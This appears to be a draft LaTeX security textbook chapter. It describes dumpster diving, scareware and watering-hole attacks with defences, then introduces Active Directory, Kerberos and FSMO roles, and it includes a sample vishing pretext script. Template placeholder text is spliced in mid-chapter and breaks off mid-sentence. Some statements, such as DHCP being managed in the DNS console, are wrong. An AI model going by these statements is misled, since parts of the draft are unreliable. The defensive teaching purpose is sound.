Figure 3 illustrates the types of materials commonly found in organization's dumpster. These items are often carelessly disposed of without proper shredding, sanitization, or secure disposal, allowing malicious actors to retrieve and exploit the information for SE-based attacks.

\subsection{Dumpster Diving and Social Engineering Attacks Specifications}
Social engineering is using human interaction to trick another person into giving access or performing an action for the attacker. A primary goal of social engineering is to establish trust between the attacker and the target. Dumpster diving is a way for attackers to gain information that they use to establish trust and rapport, or a feeling of familiarity. While attackers will also take any computer equipment they find, the primary focus of a dumpster diving attack is to gain information about an organization and its inner-workings. Even innocuous documents can be used by an attacker for all the wrong reasons.

A list of names, such as a directory or phone list, can be used in many ways by an attacker. Employees' names can be used to guess their computer username, to attack their personal web accounts or for identity theft. A name list can also be used as part of a general phishing campaign against an organization or a spearphishing or whaling attack against an executive.

Telephone numbers can be used with Caller ID spoofing to coerce an employee to reveal other information in a voice phishing (vishing) attack. An attacker could use this to call an employee with a fabricated storyline such as, \textit{"Hi, this is Alyssa in accounting. The head of finance, Jayden, needs some numbers by tonight. I asked Damien, and he said to talk to you. Can you please help me?"}

Social engineering attacks use information gathered from dumpster diving. If attackers find a reciept for a vending machine restocking service, they may pretend to be employees of the service with a name badge on the same day and time as an expected delivery to gain access to areas that are otherwise never open to the public. Attackers could use this access to do a shoulder surfing or piggybacking attack or install a keylogger to gain access to the network in a passive manner.

\subsection{How to Prevent Dumpster Diving Attacks}
Although it may seem like a lot of work to properly care for trash, processes can be put in place to help prevent a dumpster diving attack. These should be documented and clearly explained to all employees and staff.

\textbf{Have a documented equipment decommissioning process.} Ensure all identifiable information is removed from computer equipment before it is disposed of or sold. This includes securely erasing data from hard drives, using burn bags to destroy paper evidence and clearing TPM data. Remove any trust factors in organizational databases , such as domain trust relationships, media access control (MAC) address authentication or expiring trust certificates.

\textbf{Use the appropriate secure storage media deletion process.} This may include securely erasing disk drives, shredding compact discs (CDs) and degaussing magnetic storage.

\textbf{Have a data retention policy, and use certificates of destruction for sensitive data.} Data retention policies should state how long documents and data should be kept and how they should be discarded. A certificate of destruction should be created and filed for legal tracking.

\textbf{Making shredding convenient.} Provide easy access to shredders next to recycling bins, or use secure shred bins next to every trash can. For employees who work from home, provide home paper shredders.

\textbf{Educate employees.} Provide information on proper disposal and typical social engineering methods. Do not allow employees to take printouts home, and do not give old computer equipment to employees.

\textbf{Secure trash.} Use locked trash and recycling bins, or keep refuse in a secure area until it is ready to be picked up. Use trusted equipment recyclers.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{dumpsterdive.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

\section{Scareware}
Scareware is a deceptive form of social engineering (SE) attack that exploits human psychology, aprticularly emotions such as fear, anxiety, urgency, and uncertainty, to coerce individuals into performing unsafe and many times, unethical actions. This type pf attack manipulates users by presenting alarming or fabricated warnings-typically in the form of pop-ups, fake alerts, or system notifications-intended to provide a quick, irrational response. The end goal is usually to trick the user into downloadinjg and installing malicious software, often under the guise of antivirus or system optimization tools.

The typical scareware attack begins with a strategically crafted message or alert that appears while the target is browsing the internet. As illustrated in Figure X, attackers often use malicious advertisements or compromised websites to display these pop-up warnings. These alerts commonly mimic legitimate security software (such as Windows, being the most popular one, with Amazon, and Best Buy in second and third), claiming that the system is infected with multiple "hard-drive destroying viruses" or that suspicious activity has been detected from your computer's IP address. To heighten hacking the human psychological impact, these warning often include alarming language ("Critical Threat Detected!" "You Lose All Data If Scan Is Not Run," "Your System is at Risk!") and visual elements such as flashing icons, faux scan results or security dashboards showing scores and percentages vulnerabilities identified on your compromised system, countdown timers, banners with the 1-800 number continually streaming across the page, and system logos that closely resemble trusted vendors like Micsoroft, Norton, McAfee, or Avast. Newer versions, and these ones hold true to the term "scareware" have an alert/alarm .wav so the alarm goes off as if it is D-Day, instilling irrational fear to move and act quickly within the target victim.

Once the victim clicks on the alert-typical out of panic or confusion-the attack escalates. The next step often involves presenting misinformation, such as false virus reports or system errors, accompanied by a proposed solution: downloading a supposed security tool or purchasing a fake antivirus license. In reality, this "solution" is either outright malware or software designed to harvest senstive information such as login credentials, financial data, and the like. In some cases, the scareware itself will act as ransomware, locking files and demanding payment for return.

The key to scareware's effectiveness lies in its manipulation of cognitive and emotional aspects and inherent vulnerabilities. It relies not on exploiting technical flaws in systems, but rather on exploiting the user's lack of technical knowledge and awareness and their instinct to protect their system from perceived threats. Because of this, even technically secure systems can be compromised if the user is successfully manipulated to bypass security controls.

Graphical design plays a critical role in the effectiveness of scareware. Attackers invest significant effort into replicating the look and feel of legitimate software interfaces. Common tactics include using the same color schemes or brand identifiers, layout structures, font styles, and logos as widely known antivirus vendors. This visual mimicry reinforces the illusion of legitimacy and trustworthiness, another great example of a deception tactic at work with increasing likelihood that the victim will comply with the attacker's demands.

Scareware represents a dangerous intersection of psychological manipulation and technical deception.  Demonstrates how adversaries can leverage user behavior, patterns, tells, and emotions to bypass even robust security measures.

\subsection{Countermeasures Against Scareware}
Effective defense against scareware requires a combination of technical controls-such as browser security settings, anti-malvertising tools, and real-time antivirus and malware monitoring-and user education aimed at raising awareness of these manipulative tactics.


\begin{figure}
    \centering
    \includegraphics[width=1\linewidth]{scareware.png}
    \caption{\textbf{FIGURE 4. }Steps of a scareware attack}
    \label{fig:placeholder}
\end{figure}

\section{Water Hole}
A Water Hole Attack, also known as a watering hole attack or \textit{strategic website compromise}, is a sophisticated form of social engineering and \textit{supply chain attack} in which adversaries compromise legitimate websites that are known to be frequently visited by users within a specific target organization or sector. This method of attack draws its name from a predator's strategy in nature: just as animals gather at watering holes in the wild, where predators lie in wait, attackers in the digital world "lie in wait" at carefully selected websites to ambush unsuspecting users. This tactic has grown in popularity due to its stealth, effectiveness, and ability to target well-defended environments without directly attacking them.

Figure X provides a high-level overview of the multi-stage process that typically defines a water hole attack.


\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{waterhole.png}
    \caption{\textbf{FIGURE 5. }Steps of a water hole attack}
    \label{fig:placeholder}
\end{figure}

\subsubsection{\paragraph{\textbf{Step 1: Target Identification and Reconnaissance}}}
The first stage involves the reconnaissance of the target organization. The attacker selects an organization or industry based on strategic motivations—such as corporate espionage, geopolitical interests, or financial gain. Using open-source intelligence (OSINT) methods, attackers collect data about the organization’s infrastructure, key personnel, and common user behaviors.

Surveys, phishing campaigns, and traffic analysis are used to identify which websites are commonly accessed by employees. These may include third-party vendor portals, local government services, industry forums, supply chain partner websites, or even internal blogs and news sources. By identifying these “trusted” websites, attackers increase the likelihood of a successful compromise.

\subsubsection{\textbf{Step 2: Website Compromise}}
Once a frequently visited website is selected, the attacker attempts to compromise its infrastructure. This is often done through:

\begin{itemize}
    \item \textbf{Exploiting known CMS vulnerabilities} (e.g., WordPress plugins, outdated Joomla installations),
    \item \textbf{Phishing the site administrators}, or
    \item \textbf{Injecting malicious scripts} through third-party ad services or analytics.
\end{itemize}

The website may remain fully functional while silently delivering malware-laden scripts to its visitors. In recent cases, attackers have also used drive-by downloads or JavaScript-based malware that executes in the browser to profile users in real time.

\subsubsection{\textbf{Step 3: Profiling the Victim}}
When a victim visits the compromised site, malicious scripts run silently in the background to fingerprint the device. This step involves:

\begin{itemize}
    \item Inspecting the user-agent string to determine browser version and operating system,
    \item Collecting IP address and geolocation data,
    \item Checking installed browser plugins and extensions, and
    \item Running JavaScript or WebAssembly probes to detect vulnerabilities.
\end{itemize}

Some advanced attackers may even deploy \textbf{zero-day exploits} that specifically target vulnerabilities associated with software common in the environment of the target organization.

\subsubsection{\textbf{Step 4: Exploitation and Payload Delivery}}
Based on the profile results, a customized exploit is launched to compromise the victim’s machine. This can involve:

\begin{itemize}
    \item Remote code execution vulnerabilities,
    \item Privilege escalation tools, or
    \item Malware dropper mechanisms.
\end{itemize}

Once access is gained, the attacker installs a \textbf{persistent payload}, which may include \textbf{\textit{Remote Access Trojans (RATs)}},\textit{keyloggers}, or {network discovery tools}. These tools allow lateral movement within the network, privilege escalation, data exfiltration, or even ransomware deployment, depending on the attacker’s objective.

\subsection{\textbf{Real-World Examples and Current Relevance}}
Water hole attacks have been increasingly used in \textbf{Advanced Persistent Threat (APT)} campaigns. For example:
\begin{itemize}
    \item In 2017, \textbf{APT10 (a Chinese state-sponsored group)} carried out watering hole attacks on multiple aerospace and defense contractor sites to steal proprietary technologies.
    \item In 2021, \textbf{SolarMarker malware campaigns} used Google SEO poisoning to redirect users to compromised web pages designed as watering holes to install info-stealing malware.
    \item In 2024, researchers observed that watering hole tactics are being used in \textbf{supply chain attacks} on \textit{Managed Service Providers (MSPs)} and \textbf{ open source package repositories} such as \texttt{PyPI} and \texttt{npm}, significantly widening the attack surface.
\end{itemize}

\subsection{\textbf{Implications and Mitigation}}
Water hole attacks are particularly dangerous because they target \textbf{trusted external websites}, bypassing traditional perimeter defenses. Since traffic originates from seemingly legitimate sources, it often goes unnoticed by intrusion detection systems (IDS) or endpoint protection platforms unless advanced \textbf{behavioral analysis} or \textbf{threat intelligence feeds} are integrated.

\textbf{Mitigation strategies include:}

\begin{itemize}
    \item Network segmentation and endpoint isolation,
    \item Restricting or monitoring access to third-party sites,
    \item Keeping browsers and plugins updated,
    \item Deploying advanced \textbf{web filtering and sandboxing}, and
    \item Educating employees to recognize anomalous website behavior or certificate warnings.
\end{itemize}

Furthermore, using zero-trust architectures, where every external interaction is verified regardless of origin, can help defend against watering hole techniques.

In sum, the water hole attack is a compelling example of how attackers leverage both psychological trust and technical compromise to penetrate otherwise well-secured environments. As employees continue to interact with a wide range of online resources in hybrid or remote work models, the threat posed by watering hole attacks continues to escalate - necessitating a combination of user vigilance, proactive threat hunting, and robust technical defenses to mitigate risk effectively.

\warningbox{\lipsum[4]}




\section{Section Heading}
Instead of simply listing headings of different levels we recommend to let every heading be followed by at least a short passage of text. Furtheron please use the \LaTeX\ automatism for all your cross-references and citations.


\subsection{Subsection Heading}

Instead of simply listing headings of different levels we recommend to let every heading be followed by at least a short passage of text. Further on please use the \LaTeX\ automatism for all your cross-references\index{cross-references} and citations\index{citations} as has already been described in Sect.~
\subsubsection{Subsubsection Heading}
Instead of simply listing headings of different levels we recommend to let every heading be followed by at least a short passage of text. Furtheron please use the \LaTeX\ automatism for all your cross-references and citations as has already been described in Sect., see also Fig.~\ref{fig:1}\footnote{If you copy text passages, figures, or tables from other works, you must obtain \textit{permission} from the copyright holder (usually the original publisher). Please enclose the signed permission with the manucript. The sources\index{permission to print} must be acknowledged either in the captions, as footnotes or in a separate section of the book.}

Please note that the first line of text that follows a heading is not indented, whereas the first lines of all subsequent paragraphs are.

references and citations citations as has already been described in Sect.

Please note that the first line of text that follows a heading is not indented, whereas the first lines of all subsequent paragraphs are.

\begin{svgraybox}
If you want to emphasize complete paragraphs of texts we recommend to use the newly defined Springer class option \verb|graybox| and the newly defined environment \verb|svgraybox|. This will produce a 15 percent screened box 'behind' your text.

If you want to emphasize complete paragraphs of texts we recommend to use the newly defined Springer class option and environment \verb|svgraybox|. This will produce a 15 percent screened box 'behind' your text.
\end{svgraybox}


\subsubsection{Subsubsection Heading}
Instead of simply listing headings of different levels we recommend to let every heading be followed by at least a short passage of text. Furtheron please use the \LaTeX\ automatism for all your cross-references and citations as has already been described in Sect.~\ref{ }.

Please note that the first line of text that follows a heading is not indented, whereas the first lines of all subsequent paragraphs are.

\begin{theorem}
Theorem text goes here.
\end{theorem}
%
% or
%
\begin{definition}
Definition text goes here.
\end{definition}

\begin{proof}
%\smartqed
Proof text goes here.
%\qed
\end{proof}

\paragraph{Paragraph Heading} %
Instead of simply listing headings of different levels we recommend to let every heading be followed by at 
\chapter{How Active Directory Works}
Active Directory was first released with Windows Server 2000. Its primary function is to provide authentication, authorization, identity and access management, and directory services to users on a Windows-based network.
\begin{itemize}
    \item Authentication is the process where Active Directory verifies a user's credentials (username and password). The user credentials are stored in the Active Directory database (\texttt{ntds.dit}).
    \item Authorization is the process that grants or denies a user the ability to do something such as edit a file or access an application.
\end{itemize}

Since its release, Microsoft has added additional services to Active Directory. The topic of Active Directory can be quite complex as there are many components that are always in motion. Just remember that its core function is to authenticate and authorize users to use network resources.

Even though there has been a big push to move everything to the cloud, Active Directory is still used by most medium to large organizations. Many organizations use Microsoft Office 365 and cloud services and operate in a \textit{hybrid mode.} This means that the local Active Directory is synced with the cloud to provide seamless authentication to Office 365 resources, such as email.

To better understand how Active Directory works, let us look at some examples. These examples provide a high-level overview of how Active Directory works.

\subsection{Example 1: Authenticate Users}
Sam was recently hired as an accountant for Active Directory Pro. The IT administrator creates an account for Sam in Active Directory Users and Computers (ADUC). The account is unique to Sam and contains personal details such as first name, last name, office location, phone number, email address, etc. Sam is provided with a username and password so that she can log into the company network.
\begin{enumerate}
    \item Sam logs into her laptop with the username and password provided by the IT department.
    \item The logon request goes to the Active Directory Domain Controller (DC) or Authentication Server (AS) (depending on configuration) to verify and validate Sam's credentials.
    \item The DC or AS searches for Sam's account in the \texttt{ntds.dit} database. If the credentials match, Sam will be granted access. If not, she will be denied.
    \item If credential verification and validation are successful, Sam will be logged on to her laptop and will be authenticated against the domain.
\end{enumerate}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{domauth.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

\subsection{Example 2: Authorize User (Grant of Deny Permissions}
In this example, the Active Directory server will authorize access to network resources.
\begin{enumerate}
    \item Sam logs into her computer using the username and password provided and wants to access her email, a contract file, and the accounting database server.
    \item These network resources check with the DC or AS to see if Sam's account is authorized for access.
    \item The DC or AS then verify Sam's account and either grants the account access or not.
    \item Sam's account is granted access, and she can now check her email, modify the contract file, and work on the database server.
    \begin{figure}
        \centering
        \includegraphics[width=0.75\linewidth]{authorization.png}
        \caption{Enter Caption}
        \label{fig:placeholder}
    \end{figure}
\end{enumerate}

\subsection{Example 3: Authorize and Deny User Access}
In this last example, we will look at another user that has mixed access (allow and deny permissions).
\begin{enumerate}
    \item Pam logs into the network with her username and password. She tries to access the same resources as Jim (email, contract file, and database server).
    \item These network resources check with Active Directory to see if Pam’s account is authorized for access.
    \item Active Directory verifies Pam’s account (Authentication). AD also checks to what resources Pam's account has access to (authorization).
    \item Pam can now access the email and the contract file, but does not have permission to access the accounting database server.
\end{enumerate}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{auth2.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
In all of the above examples, Active Directory works by providing authentication and authorization to users and network resources. No matter what technical jargon you hear, that is the core function of Active Directory.

It is important to note that these network resources must be configured to use Active Directory. The resources are typically joined to the Active Directory server (but not all systems require this). There is a lot of configuration and planning that goes into configuring an Active Directory server. Organizations typically have dedicated professionals to implement and manage these systems.

In the next lesson, I will go over some of the core components of an Active Directory server.

\section{Active Directory Domain Services (AD DS)}
Active Directory Domain Services is the main component of Active Directory.

AD DS can be broken down into three main functions.

Directory service – A directory service provides methods for storing data in a structured way that makes administration and access easy. For example, Active Directory stores information on users, computers, and groups.

Authentication Service – Authenticates network users

Authorization Service – Grants or denies network users access to network resources.
It is important to stop here and review these three terms. Don’t get confused with the following three terms, they all refer to Active Directory.

AD – This is just an abbreviation for Active Directory.

AD DS – This is a server that is running the Active Directory Domain Services role.
Domain Controller (DC) – This is also a server that runs the Active Directory Domain Service Role. A Domain Controller is the same thing as a server running AD DS.

When you install Active Directory, you will be installing the AD DS Role on a Windows server.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{dsrole.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Next, we will go over some of the main components of AD DS.

\section{Active Directory Core Components}
You are about to see why Active Directory is a complex topic. I will briefly go over some of the core components of an Active Directory environment. I will include diagrams to help illustrate the topic. The components in the following are typical of any Active Directory environment.

\subsection{Active Directory Domains, Trees, and Forest}
Active Directory organizes resources in a hierarchical logical structure. This logical structure helps to organize objects, define relationships, and control security boundaries.

The forest is the top-level container and is a collection of Active Directory domains. The domains in the forest share a directory schema, a directory configuration, and a global catalog. Domains in the same forest automatically have a two-way transitive trust. When you first install Active Directory and create a domain, you are also creating a forest.

Active Directory Root Domain is a logical structure of containers and objects within Active Directory. A domain contains the following components:
\begin{itemize}
    \item Hierarchical structure for users, groups, computers, and other objects.
    \item Security services that provide authentication and authorization to resources in the domain and other domains
    \item Policies that are applied to users and computers
\end{itemize}

A DNS name to identify the domain. When you log into a computer that is part of a domain, you log into the DNS domain name. My DNS domain is \texttt{ad.hackherway.com}, this is how my domain is identified. 

When you install Active Directory, you have to pick a domain name to use. It is recommended to use a subdomain of a routable domain name. For example, \texttt{ ads.hackherway.com} is a subdomain of \texttt{hackherway.com}-this is the \textit{ top-level domain (TLD).} The initial installation of Active Directory creates a forest and a root domain.

The \textit{Child Domain} is a domain that shares the same domain name space as the root domain. It is a domain with its own collection of objects. In this example, there are two child domains \texttt{east.ad.hackherway.com} and \texttt{est.ad.hackherway.com.}

Trees are a set of domains that are connected together. When you add a child domain to a parent domain, you create what is called a \textit{domain tree}. A domain tree is just a series of domains connected together in a hierarchical fashion, all using the same DNS namespace. In the above diagram, the child domains \texttt{east.ad.hackherway.com} and \texttt{est.ad.hackherway.com} are part of the same domain tree.

\subsection{The Schema}
The Schema is a set of rules that defines the classes of objects and attributes contained in the directory.

\subsection{Global catalog (GC)}
A global catalog contains information about every object in the directory. This allows users and administrators to find the information in the directory regardless of which domain in the directory actually contains the data. By default, the first domain controller in a domain is designated as the GC server, it is recommended to have at least one GC server for each site to improve performance.

\subsection{Replication}
The replication service synchronized the Active Directory database with other domain controllers. Active Directory is typically deployed with two or more domain controllers for redundancy reasons. When you create an account on one Domain controller it is replicated to the other one. If one domain controller goes down, the other one will have a copy of the database.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{treesforest.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

In the above diagram, if a user is added to DC1, it will be copied to DC2 and vice versa.

Active Directory sites for Sites and Services are used to combine multiple domain controllers into logical containers that relate to their physical location. Sites are used to optimize the performance of Active Directory when you have multiple branch offices and domain controllers.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{intersiterepl.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

The above example has two sites, and each site has two domain controllers. The domain controllers in Site A use intrasite replication to keep all changes synchronized between DC1 and DC2. Site A and Site B use intersite replication to ensure that changes in Site A are replicated in Site B and vice versa.

\section{Kerberos}
Kerberos is the authentication protocol used by Active Directory to verify the identity of a user or host. The diagrams at the beginning of this guide looked simple, but in the background there was a lot of communication between the client and the Active Directory server to authenticate and authorize the user.

Here is a diagram showing the authentication process that takes place in the background.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{kerbauth.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

\begin{enumerate}
    \item The client sends a request to the Active Directory server.
    \item The server responds with a TGT and session key that the client can use to encrypt and authenticate with the AD server.
    \item The client sends a request for a ticket.
    \item The server validates the request and returns a service ticket.
    \item The client uses the ticket received from the AD server to request access to a network resource.
    \item The server will decrypt the ticket and validate the request.
\end{enumerate}

\section{FSMO Roles}
Microsoft introduced \textit{Flexible Single Master Operation (FSMO)} roles in 2003. These FSMO roles can be distributed to different domain controllers, which can help with performance and redundancy. If one domain controller goes down, another DC will take over the missing role.

The \textit{Schema Master role} manages the read-write copy of the schema in Active Directory.

The \textit{Domain Naming Master role} makes sure that you do not create a second domain with the same name in a forest.

\textit{The RID master} is in charge of the SID for each object. Each AD object must have a unique SID. To prevent duplicates, the RID is in charge.

\textit{The PDC (Primary Domain Controller) Emulator} is the authoritative DC in the domain. It is responsible for authentication requests, password changes, and group policies.

The \textit{Infrastructure Master role} manages the relationship of GUIDS, SIDs, and DN between domains.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{addom.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

When you install Active Directory, you have to pick a domain name to use. It is recommended to use a subdomain of a routable domain name. For example, \texttt{ ads.hackherway.com} is a subdomain of \texttt{hackherway.com}

When you join a computer to the domain, it will have the DNS suffix of your domain name, for example, \texttt{pc1.ad.hackherway.com.}

This way, all of your domain joined systems are part of the same DNS namespace and can easily communicate with each other.

Also known as domain-joint, Active Directory domain, or Active Directory environment.

Windows Domain simply means your active directory server and its domain joined devices or systems using it for authentication and authorization.

User accounts
User accounts are used to provide employees access to network resources. A user account is typically assigned to each employee, but sometimes shared accounts are used. This account is stored in the Active Directory database and can provide details on the employee such as first name, last name, street, state, city, manager, etc.

Screenshot of a user account object in Active Directory.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{aduser.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Security Groups
A security group is a collection of users or computers. It simplifies the administration of permissions for a group of objects. For example, if 20 people need access to a file, you can create a security group and add the 20 people to the group. Then you would only have to manage file access for the group instead of 20 individual accounts.

Screenshot of a security group.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{usrgrp.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Computers Objects
When a computer is joined to the Active Directory domain, a computer object is created. When the object is created in Active Directory, it becomes a trusted object which can be used to gain access to the network. For example, a user needs to log into the network and access a secured file. The user can log into the computer that is trusted and access the secured file (if the user has been granted access).

Screenshot of a computer object.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{compobj.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Organizational Units (OU)
In Active Directory, organizational units are used to organize Active Directory Objects (users, groups, computers). Organizing your AD objects makes it easier to administrate and apply policies. For example, you could organize all users into their own department folders. It is recommended to separate users and computers into their own OU.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{OU.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

\section{Active Directory Benefits}
The main benefit of Active Directory is its ability to centralize user management and access to network resources.

Active Directory centralizes the management of the following:

Centralized management of user accounts
Centralized management of permissions
Centralized management of policy settings
Let us look at each of these benefits with some examples.

Benefit #1. Centralized Management of User Accounts
By using Active Directory, you have a single place to create and manage all user accounts.

For example, I will pretend Active Directory Pro has 100 employees and they all need the ability to access the network. An Administrator would use the Active Directory users and computer console and create all the accounts in one central location.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{centralaccts.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

The employees can now log into a computer and access all the resources they have access to.

Without an Active Directory, you would have to log into each resource and create an account. This would be a nightmare to manage and would be very time-consuming.

Here is what it would look like without an Active Directory server.

If Jim wanted to access network resources, an administrator would have to create the account on each system to which he needs access. For example, an account needs to be created on the laptop, on the database server, on the file server, on the email server, etc. Now you need to do that for 99 more employees. That would be a great pain.

This would be very time-consuming and impossible to create consistency across all users and resources.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{noad.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Benefit #2. Centralized Management of Permissions
By using Active Directory, you can centralize the control and management of permissions to your network resources.

Active Directory has security groups that can be used to give a group of user accounts access to resources.

For example, you have several users that need access to the accounting resources (server, contract file, file share). To easily provide access to all of these resources, you would add the users into an Active Directory security group that has permissions to these resources.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{perms.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

By using Active Directory security groups, you can easily grant and remove permissions. When an employee leaves or needs permissions removed, you just remove the account from the group.

Benefit #3 Centralized Management of Policy Settings
In an Active Directory environment, you can use group policy to apply policy settings to users and computers.

For example, if you want all users to change their password every 60 days, you can configure a password policy that applies to all users. If you wanted to apply power settings to all computers, you can do that with g\Group Policy.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{gp.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

With no Active Directory or group policy, you would need to configure the policy settings on each computer. That would be impossible to manage in large environments. Organizations that are 100\% in the cloud use Microsoft Intune to manage policy settings. Intune can also be used in hybrid environments.

\section{Active Directory Management Tools}
In this lesson, you will learn about the various tools used to manage Active Directory. Most of these are included when you install Active Directory on a server.

On the server running Active Directory, you can access these management tools in the 'Windows Administrative Tools' folder. You can also install these tools on another computer by installing the RSAT tools.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{rsat.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Active Directory Users and Computers (ADUC)
This is the console that is used to create and manage user accounts, computers, and groups. For example, to create a new user account, you would open the ADUC console to create the new account, set the password, and add the user to groups. It is also used to create OUs and organize your objects.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{aduc.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Active Directory Administrator Center (ADAC)
The ADAC tool was included with server 2008 R2 and higher. It performs many of the same tasks as ADUC and a few additional ones. I’m not sure if Microsoft meant for this to replace ADAC but it is not widely used. Most administrators still use the ADUC tool.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{adac.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Active Directory Domains and Trusts
This console is used to raise the domain mode or functional level of a domain or forest. It is also used to manage trust relationships. This console is one that you will not use very often.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{domtrust.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Active Directory Sites and Services
This console is used to manage your sites and subnets. If you only have a single site, then you will not need to use this console. If you deploy Active Directory in multiple geographic regions, you may need to use this console to manage your subnets, sites, and replication.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{adss.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Group Policy Management Console
Group policy provides centralized management and policy settings for users and computers in an Active Directory environment. For example, to make sure all users change their password every 90 days, you would use group policy and configure a password policy. Understanding how to use group policy is a critical function as a System Administrator. 

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{gpm.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

DNS
The DNS console is used to manage and create DNS zones and resource records. Active Directory will not work without DNS; it is included when you install AD. It is important to know the basics of DNS if you are working with Active Directory.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{dns.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

DHCP
The DNS console is used to create and manage the DHCP address pools in your network. This is one tool that actually has nothing to do with Active Directory. You don’t need DHCP for Active Directory, but it is typically used to simplify assigning IP addresses to client devices.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{dhcp.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

PowerShell
PowerShell is a command-line tool that helps you automate many routine tasks such as creating, updating, and reporting on objects in Active Directory.

Active Directory Pro Toolkit
The AD Pro Toolkit is a collection of Active Directory Management Tools used to simplify and automate the administration of Active Directory.

I have managed many Active Directory environments over my career as a System Administrator/Manager. The tools provided by Microsoft lack many features, such as bulk management and reporting. PowerShell can help with automation, but it can be time-consuming to figure out, and not all admins have this needed free time. That is why I created the toolkit, it is very easy to use and saves you a lot of time.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{adtoolkit.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

\section{Other Active Directory Services}
The following is a list of additional Active Directory services that can be installed. These services are optional and are installed by using the add roles and features wizard on the Windows server.

Active Directory Certificate Services
Certificate services are used to manage and deploy certificates. Certificates are used to digitally sign and encrypt documents and network traffic.

Active Directory Federation Services
The federation services provide single sign-on (SSO) for user accounts for web based applications such as Office 365.

Active Directory Lightweight Directory Services
AD LDS is a service that provides directory services for applications and also provides a data store and services for accessing the data store. It uses standard application programming interfaces (APIs) for accessing the application data.

Active Directory Rights Management Services
This service encrypts documents and is used to limit access to documents such as email, office documents, and Web pages.

\section{Azure Active Directory (AAD)}
Azure Active Directory is now called Entra ID.

Azure Active Directory (AD) is a cloud-based service for authenticating and authorizing access. Microsoft calls it an identity and access management service, which is a new fancy term that just means authenticate and authorize access.

Azure AD will authenticate users to cloud-based applications like Office 365, Azure, and other SaaS applications.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{aad.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

ADDS = Active Directory Domain Services (on-premises Active Directory).

AAD – Azure Active Directory (Cloud-based Active Directory).

Hybrid Azure AD
A hybrid Active Directory is when you have a local Active Directory (ADDS), and sync it with the cloud Azure Active Directory (AAD). In hybrid mode, you can sync your local AD with the Azure AD using a Microsoft software called Azure AD Connect. This enables you to have the same users and passwords on premises and in the cloud. This is done so that users will have a single sign on to both local resources and cloud-based resources.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{aadcloud.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

The sync of local AD to cloud AD is a one-way sync, but Azure does not sync with the local AD.

What is Active Directory and why is it important?
In an organization, security is very important. It covers not only the physical setup of the company but also the security of their network. The general security of the organization’s network is a critical responsibility of the Network and System Administrator. Like people are filtered and screened as they enter the building, system administrators also need to make sure that only authorized users can access company resources. This is where Active Directory comes into the picture. 

Active Directory or AD plays a vital role in an organization. It is a form of database where users, groups, and computers are stored. Not only is it a database, but it also defines the security of the organization’s network. This would define who will have access to company resources, including what type of access they will have. As a result, only the defined users will have access according to their defined type of access. 

If you want to be a system administrator, your knowledge of Active Directory is very important. Let’s learn what an active directory is and how it plays a vital role in an organization and its components. 

What are the components of AD?
Now let us get into the details of the components of AD. In a Windows Server Operating System, AD is termed Active Directory Domain Services or AD DS. According to Microsoft, AD DS provides the methods for storing directory data and making these data available to network users and administrators. A window server running AD DS is called a domain controller. AD has four major components, domain, tree, forest, and objects.  

